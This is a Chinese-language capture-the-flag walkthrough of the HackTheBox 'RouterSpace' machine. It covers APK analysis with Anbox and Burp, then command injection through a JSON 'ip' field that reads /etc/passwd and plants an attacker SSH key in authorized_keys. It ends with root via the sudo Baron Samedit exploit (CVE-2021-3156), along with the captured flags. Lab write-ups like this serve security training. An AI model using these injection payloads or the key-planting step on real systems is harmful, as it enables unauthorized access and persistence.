









# 来自 HackTheBox 的 RouterSpace 详细演练

> 原文：<https://infosecwriteups.com/routerspace-from-hackthebox-detailed-walkthrough-d40c22ad9d7c?source=collection_archive---------3----------------------->

向您展示完成盒子所需的所有工具和技术。

[RouterSpace](https://www.hackthebox.com/home/machines/profile/444) 是由 [h4rithd](https://www.hackthebox.com/home/users/profile/550483) 在 [HackTheBox](https://www.hackthebox.com/home) 上制作的一款简易水平仪。这个 Linux 盒子侧重于 web app 和 OS 枚举，并使用 SQLMap 来转储数据。

# 机器信息


黑客盒子的路由器空间

我们从最初的网站上找到的 apk 开始。我们在 Kali 上使用 Anbox 来模拟 Android 设备，这样我们就可以在 apk 运行时与之交互。打嗝帮助我们找到一个地址和一个代理，让我们与应用程序互动。我们找到了一种远程执行代码的方法，让我们获得对机器的 ssh 访问，然后我们使用 Baron same dit(CVE 2021–3156)漏洞获取 root。

[](https://www.hackthebox.com/home/machines/profile/444) [## RouterSpace —破解盒子::渗透测试实验室

### 登录 Hack The Box 平台，让您的笔测试和网络安全技能更上一层楼！

www.hackthebox.com](https://www.hackthebox.com/home/machines/profile/444) 

# 初步侦察

像往常一样，让我们从 Nmap 开始:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.148 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

┌──(root㉿kali)-[~/htb/routerspace]
└─# nmap -p$ports -sC -sV -oA routerspace 10.10.11.148
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 17:03 EDT
Nmap scan report for 10.10.11.148
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-RouterSpace Packet Filtering V1
| ssh-hostkey: 
|   3072 f4:e4:c8:0a:a6:af:66:93:af:69:5a:a9:bc:75:f9:0c (RSA)
|   256 7f:05:cd:8c:42:7b:a9:4a:b2:e6:35:2c:c4:59:78:02 (ECDSA)
|_  256 2f:d7:a8:8b:be:2d:10:b0:c9:b4:29:52:a8:94:24:78 (ED25519)
80/tcp open  http
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-58343
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 70
|     ETag: W/"46-Qhj36TEqDHhoIimlameRlpAHdCU"
|     Date: Wed, 13 Apr 2022 21:03:50 GMT
|     Connection: close
|     Suspicious activity detected !!!
|   GetRequest: 
|     HTTP/1.1 200 OK
|     X-Powered-By: RouterSpace
|     X-Cdn: RouterSpace-3904
|     Accept-Ranges: bytes
|     Cache-Control: public, max-age=0
|     Last-Modified: Mon, 22 Nov 2021 11:33:57 GMT
|     ETag: W/"652c-17d476c9285"
|     Content-Type: text/html; charset=UTF-8
|     Content-Length: 25900
|     Date: Wed, 13 Apr 2022 21:03:49 GMT
|     Connection: close
|   RTSPRequest, X11Probe: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
|_http-title: RouterSpace
|_http-trane-info: Problem with XML parsing of /evox/about
<SNIP>

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.20 seconds
```

我们发现只有两个端口是开放的，22 (SSH)可能是为了以后，所以现在只有端口 80。让我们来看看:



RouterSpace 网站

# APK 文件

就是一个无所事事的静态网站。只是一个下载 apk 的链接，让我们抓住它:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# wget http://10.10.11.148/RouterSpace.apk
--2022-04-13 17:14:19--  http://10.10.11.148/RouterSpace.apk
Connecting to 10.10.11.148:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 35855082 (34M) [application/vnd.android.package-archive]
Saving to: ‘RouterSpace.apk’
RouterSpace.apk    100%[================>] 34.19M 1.78MB/s in 22s     

2022-04-13 17:14:41 (1.53 MB/s) - ‘RouterSpace.apk’ saved [35855082/35855082]
```

# Anbox 配置

我们有一个 Android 应用程序(apk)文件，现在我们需要一种运行它的方法。要做到这一点，有几个选项，但为了简单起见，我们可以使用 Kali repo 中的 Anbox。

首先检查 lxc 是否已安装并且是最新的:

```
┌──(root㉿kali)-[~]
└─# apt-get install lxc
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following additional packages will be installed:
  arch-test bridge-utils busybox-static cloud-image-utils debootstrap distro-info fakechroot 
  gcc-12-base genisoimage ibverbs-providers libboost-iostreams1.74.0 libboost-thread1.74.0
<SNIP>
1 upgraded, 35 newly installed, 1 to remove and 826 not upgraded.
Need to get 26.9 MB of archives.
After this operation, 81.1 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 http://http.kali.org/kali kali-rolling/main amd64 busybox-static amd64 1:1.30.1-7+b2 [896 kB]
Get:2 http://http.kali.org/kali kali-rolling/main amd64 uuid-runtime amd64 2.37.3-1+b1 [104 kB]
Get:3 http://kali.download/kali kali-rolling/main amd64 gcc-12-base amd64 12-20220319-1 [206 kB]
Get:4 http://http.kali.org/kali kali-rolling/main amd64 libstdc++6 amd64 12-20220319-1 [617 kB]
<SNIP>
Fetched 26.9 MB in 5s (5,944 kB/s)
Extracting templates from packages: 100%
Preconfiguring packages ...
dpkg: busybox: dependency problems, but removing anyway as you requested:
 cryptsetup-initramfs depends on busybox | busybox-static; however:
  Package busybox is to be removed.
  Package busybox-static is not installed.
<SNIP>
Unpacking lxc-templates (3.0.4-5) ...
Selecting previously unselected package lxcfs.
Preparing to unpack .../28-lxcfs_5.0.0-1_amd64.deb ...
Unpacking lxcfs (5.0.0-1) ...
Done.
<SNIP>
Setting up qemu-utils (1:6.2+dfsg-2) ...
Setting up arch-test (0.18-1) ...
Setting up libgfxdr0:amd64 (10.1-1+b1) ...
update-initramfs: Generating /boot/initrd.img-5.15.0-kali3-amd64
Processing triggers for libc-bin (2.33-1) ...
Processing triggers for man-db (2.9.4-4) ...
Processing triggers for kali-menu (2021.4.2) ...
```

这是一个很长的安装，所以我已经削减了大部分。lxc 排序后，让我们安装一个 anbox:

```
┌──(root㉿kali)-[~]
└─# apt-get install anbox
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following additional packages will be installed:
  libboost-filesystem1.74.0 libboost-log1.74.0 libboost-program-options1.74.0 libboost-regex1.74.0 libgles2 libprotobuf-lite23 libsdbus-c++1 libsdl2-image-2.0-0 libwebp7
The following NEW packages will be installed:
  anbox libboost-filesystem1.74.0 libboost-log1.74.0 libboost-program-options1.74.0 libboost-regex1.74.0 libgles2 libprotobuf-lite23 libsdbus-c++1 libsdl2-image-2.0-0 libwebp7
0 upgraded, 10 newly installed, 0 to remove and 826 not upgraded.
Need to get 3,183 kB of archives.
After this operation, 16.2 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 http://kali.download/kali kali-rolling/main amd64 libgles2 amd64 1.4.0-1 [18.2 kB]
<SNIP>
Get:10 http://http.kali.org/kali kali-rolling/contrib amd64 anbox amd64 0.0~git20211020-2 [754 kB]
Fetched 3,183 kB in 1s (2,149 kB/s)
<SNIP>
Setting up anbox (0.0~git20211020-2) ...
Created symlink /etc/systemd/user/default.target.wants/anbox-session-manager.service → /usr/lib/systemd/user/anbox-session-manager.service.
Processing triggers for kali-menu (2021.4.2) ...
Processing triggers for desktop-file-utils (0.26-1) ...
Processing triggers for libc-bin (2.33-1) ...
Processing triggers for man-db (2.9.4-4) ...
Processing triggers for mailcap (3.70+nmu1) ...
```

现在我们需要下载一个 Android 图像:

```
┌──(root㉿kali)-[~]
└─# wget https://build.anbox.io/android-images/2018/07/19/android_amd64.img
--2022-04-12 17:38:09--  https://build.anbox.io/android-images/2018/07/19/android_amd64.img
Resolving build.anbox.io (build.anbox.io)... 163.172.154.175
Connecting to build.anbox.io (build.anbox.io)|163.172.154.175|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 325902336 (311M)
Saving to: ‘android_amd64.img’
android_amd64.img  100%[==============>] 310.80M 25.3MB/s in 20s     
2022-04-12 17:38:29 (15.5 MB/s) - ‘android_amd64.img’ saved [325902336/325902336]
```

这需要移动到 anbox 文件夹:

```
┌──(root㉿kali)-[~]
└─# mv android_amd64.img /var/lib/anbox/android.img
```

最后，我们需要启动 anbox 容器服务:

```
┌──(root㉿kali)-[~]
└─# systemctl start anbox-container-manager.service
```

切换到桌面，你会在应用程序菜单中找到一个框。点按它以打开应用程序管理器:



Anbox 应用程序经理

# 安装 APK

运行之后，我们现在可以安装 apk 文件了:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# adb install RouterSpace.apk
Command 'adb' not found, but can be installed with:
apt install adb
Do you want to install it? (N/y)y
apt install adb
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following additional packages will be installed:
  android-sdk-platform-tools-common
The following NEW packages will be installed:
  adb android-sdk-platform-tools-common
0 upgraded, 2 newly installed, 0 to remove and 826 not upgraded.
Need to get 608 kB of archives.
After this operation, 1,835 kB of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 http://kali.download/kali kali-rolling/main amd64 adb amd64 1:29.0.6-6 [599 kB]
Get:2 http://http.kali.org/kali kali-rolling/main amd64 android-sdk-platform-tools-common all 28.0.2+7 [8,276 B]
Fetched 608 kB in 1s (968 kB/s)                         
Selecting previously unselected package adb.
Preparing to unpack .../adb_1%3a29.0.6-6_amd64.deb ...
Unpacking adb (1:29.0.6-6) ...
Preparing to unpack .../android-sdk-platform-tools-common_28.0.2+7_all.deb ...
Unpacking android-sdk-platform-tools-common (28.0.2+7) ...
Setting up android-sdk-platform-tools-common (28.0.2+7) ...
Setting up adb (1:29.0.6-6) ...
Processing triggers for man-db (2.9.4-4) ...
Processing triggers for kali-menu (2021.4.2) ...
```

Adb 和其他需要安装的工具。现在他们在那里，我们可以再试一次:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# adb install RouterSpace.apk
* daemon not running; starting now at tcp:5037
* daemon started successfully
error: device offline
Performing Push Install
adb: error: failed to get feature set: device offline
```

第一次我们得到一个错误，因为守护进程没有运行。它会自动启动，所以只需再次运行该命令:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# adb install RouterSpace.apk
Performing Streamed Install
Success
```

# 运行应用程序

这次成功了，回头看看 Anbox，我们看到我们的应用程序已经出现:



Anbox 中的 RouterSpace 应用

运行应用程序时，我们会看到这个页面:


RouterSpace 应用程序检查状态

单击检查状态按钮会给我们一个错误:



检查状态错误消息

# ADB 代理配置

我们看不到应用程序试图去哪里，也没有办法在 Anbox 上设置代理，但快速搜索发现了这个向我们展示了如何从 adb 的命令行做到这一点。为此，我们只需这样做:

```
adb shell settings put global http_proxy <host>:<port>
```

如果我们将添加 http_proxy 设置为指向 Burp，那么我们可以捕获来自 RouterSpace 应用程序的流量:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# adb shell settings put global http_proxy 10.10.14.124:4444
```

# 打嗝截击

现在启动 Burp 并转到代理部分的选项选项卡:



设置 Burp 代理监听器

添加一个新的代理侦听器，并将其绑定到我们的 tun0 地址，其端口与我们在上面为 adb http_proxy 设置的端口相同:



为端口 4444 添加绑定

添加时应该是这样的:



现在配置了新的代理监听程序

回到 RouterSpace 应用程序，再次单击 Check Status，现在回到 Burp，查看它截获的请求:



Burp 截获了来自 RouterSpace 应用程序的请求

我们可以把它发送到复读机去玩:



使用打嗝复读机进行调查

# 对 RCE 使用 Curl

找到端点后，我们现在不需要 Anbox 了，没有它也可以继续探索。我更喜欢使用命令行，这样我们可以使用 curl 而不是 Burp:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# curl -s -H 'user-agent: RouterSpaceAgent' -H 'Content-Type: application/json' --data-binary $'{\"ip\":\"0.0.0.0\"}' http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess

"0.0.0.0\n"
```

玩了一圈后，我发现我们可以用 a；在 0.0.0.0 之后运行我们选择的命令。这里我显示了 passwd 文件，并使用 sed/cut 使它显示得很好:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# curl -s -H 'user-agent: RouterSpaceAgent' -H 'Content-Type: application/json' --data-binary $'{\"ip\":\"0.0.0.0;cat /etc/passwd\"}' http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess > /dev/null | sed 's/\\n/\n/g' | cut -d '"' -f 2 | sed -n '1!p' | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
paul:x:1001:1001:,,,:/home/paul:/bin/bash
```

只有 Paul 和 root 可以登录。让我们看看保罗的个人文件夹:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# curl -s -H 'user-agent: RouterSpaceAgent' -H 'Content-Type: application/json' --data-binary $'{\"ip\":\"0.0.0.0;ls -lsa /home/paul\"}' http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess > /dev/null | sed 's/\\n/\n/g' | cut -d '"' -f 2 | sed -n '1!p'                 
total 48
4 drwxr-xr-x 8 paul paul 4096 Feb 17 18:30 .
4 drwxr-xr-x 3 root root 4096 Feb 17 18:30 ..
0 lrwxrwxrwx 1 root root    9 Nov 20 19:32 .bash_history -> /dev/null
4 -rw-r--r-- 1 paul paul  220 Nov 20 17:32 .bash_logout
4 -rw-r--r-- 1 paul paul 3771 Nov 20 17:32 .bashrc
4 drwx------ 2 paul paul 4096 Feb 17 18:30 .cache
4 drwx------ 3 paul paul 4096 Apr 19 20:01 .gnupg
4 drwxrwxr-x 3 paul paul 4096 Feb 17 18:30 .local
4 drwxrwxr-x 5 paul paul 4096 Apr 19 17:24 .pm2
4 -rw-r--r-- 1 paul paul  823 Nov 20 18:30 .profile
4 drwxr-xr-x 3 paul paul 4096 Feb 17 18:30 snap
4 drwx------ 2 paul paul 4096 Apr 19 19:46 .ssh
4 -r--r----- 1 root paul   33 Apr 19 17:25 user.txt
```

# 用户标志

我们可以获取用户标志:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# curl -s -H 'user-agent: RouterSpaceAgent' -H 'Content-Type: application/json' --data-binary $'{\"ip\":\"0.0.0.0;cat /home/paul/user.txt\"}' http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess > /dev/null | sed 's/\\n/\n/g' | cut -d '"' -f 2 | sed -n '1!p' 
1883f666c7b2ac1683e666225a372ce7
```

# 反向外壳

是时候反转外壳了。我们可以像在[horizontal](https://pencer.io/ctf/ctf-htb-horizontall/)上那样做。首先生成一个 ssh 密钥对:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# ssh-keygen                                      
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): /root/htb/routerspace/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/htb/routerspace/id_rsa
Your public key has been saved in /root/htb/routerspace/id_rsa.pub
The key fingerprint is:
SHA256:Z+wQ9wrHt+p7f6aOv/tAol77FCQ36P28umPKNnhPu24 root@kali
The keys randomart image is:
+---[RSA 3072]----+
|                 |
|             .   |
|        . . o +  |
|         = o = . |
|        S * = +  |
|         B + + + |
|          = o.o o|
|         o.*oE..+|
|         .B=X%&O.|
+----[SHA256]-----+
```

现在，我们可以将其回显到机器上的 authorized_keys 文件中:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# curl -s -H 'user-agent: RouterSpaceAgent' -H 'Content-Type: application/json' --data-binary $'{\"ip\":\"0.0.0.0;echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC4jyNVMJ963UsvyDfhRCXbXMcVS4Psrhcm1Yf9VlDlip5DiuiMuZc/ODFLLGrEpq8xyVTVX1/nXD7yjXRl60bfnwvD3qUHPjlNCj25eSVe0Nf2uWnfaW3DNDJ4ZX0NRbwfsVxGCM15DnKC6Qx85S5I+S15M3pzh4+wf5o59ebRWrHVgWAUTkJ2ktM+zb/5m18Sjpafe/JC6TKOEGZcwjeE0l3+jsVBxukjj6mhmgEaO2hFE83HwqyhLmhPYvcVEP3wF8ln5yNTBUhHaReY8UV5hPESHsw1jTPfgFvLt2/J0bX35bpt9qbKpVxKv58t7+phG/OSy7i7MLZSLjToFvxCiBBCnY0kUo1Qn1E10TdeAhYx6Q/wf/re5SbiPWg2UWQYeUayGA8SgoYaal+SaX9Yn9ukOiSVkjEMlwI1ULrrcIPNbIRxfj8iL2xYqU6BLspFqrO5PKabeIWBmJlWqKs1esCJQQ6RX8im5kEr/LW61fIvSjkUvDcb0IaC0Z8Y/ms= root@kali' > /home/paul/.ssh/authorized_keys\"}' http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess
```

在 Kali 上更改我们私钥的权限:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# chmod 600 id_rsa
```

现在我们可以以 Paul 的身份登录:

```
┌──(root㉿kali)-[~/htb/routerspace]
└─# ssh -i id_rsa paul@routerspace.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)

  System information as of Tue 19 Apr 2022 09:00:51 PM UTC

  System load:  0.0               Processes:             206
  Usage of /:   71.0% of 3.49GB   Users logged in:       1
  Memory usage: 31%               IPv4 address for eth0: 10.10.11.148
  Swap usage:   0%

Last login: Tue Apr 19 20:59:32 2022 from 10.10.14.124
paul@routerspace:~$
```

# CVE-2021–3156

在这种情况下，升级到 root 用户非常简单。如果你复制 [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) ，它的输出会告诉你这个盒子有一个易受 CVE 攻击的 sudo 版本-2021–3156。也被称为巴隆·萨姆迪特，如果你感兴趣，这里有一些信息。

我们可以检查安装的版本:

```
paul@routerspace:~$ sudo -V
Sudo version 1.8.31
Sudoers policy plugin version 1.8.31
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.31
```

这个版本确实很脆弱。我在 GitHub 上看了一下，发现了这个漏洞。我只是把它复制/粘贴到盒子上的一个文件中:

```
paul@routerspace:~$ cat exploit.py 
#!/usr/bin/python3
Exploit for CVE-2021-3156 with overwrite struct service_user by sleepya

This exploit requires:
- glibc with tcache
- nscd service is not running

Tested on:
- Ubuntu 18.04
```

# 根标志

然后运行它以获得根和标志:

```
paul@routerspace:~$ python3 exploit.py
# id
uid=0(root) gid=0(root) groups=0(root),1001(paul)

# cat /root/root.txt
c97714e03098f4ef64378114f235078a
```

出于某种原因，我花了很长时间才让一个盒子工作，但之后这个盒子就变得非常简单了。

希望你学到了一些东西，下次见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 7 月 9 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-routerspace/)*。*